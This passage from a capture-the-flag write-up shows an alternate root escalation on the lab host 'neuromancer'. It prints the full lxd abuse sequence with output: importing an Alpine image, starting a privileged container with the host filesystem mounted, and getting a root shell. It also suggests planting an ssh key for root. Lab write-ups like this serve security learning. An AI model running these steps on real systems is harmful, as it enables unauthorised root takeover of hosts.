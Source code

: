 
There we go, we now have root successfully. There was still one thought lingering in my mind. The lxd group that the ta user was a part of. I wanted to see if that was a valid way to get root. So I did go ahead and try it

## Alternate Priv Esc to Root

Looking back at the ta user’s groups, we can see that it is part of the lxd group, which can be used to priv esc to root. Let’s go ahead and do just that.

You can check out the details here https://www.hackingarticles.in/lxd-privilege-escalation/ , I will just run the attack here.

What we need to do is build the alpine linux image, and send the tar file over to the victim, and initialize it using lxc. So let’s go ahead and do that.

I have already transferred the alpine image tar file to the neuromancer machine.

```bash
ta@neuromancer:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b
ta@neuromancer:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Jan 13, 2025 at 9:10am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
ta@neuromancer:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
ta@neuromancer:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
ta@neuromancer:/tmp$ lxc start ignite
ta@neuromancer:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)

```

There we go we do get root although it's still a limited root. We can add an ssh key for the root user and then ssh into root to get full root.

## Final Thoughts

This was an amazing box. Boxes? It was definitely something different since it involved two hosts. The added difficulty from pivoting made this box interesting since it meant I had to modify certain exploits to match the pivoting aspect. I also learnt new attacks from this box such as the SMPT Log poisoning.
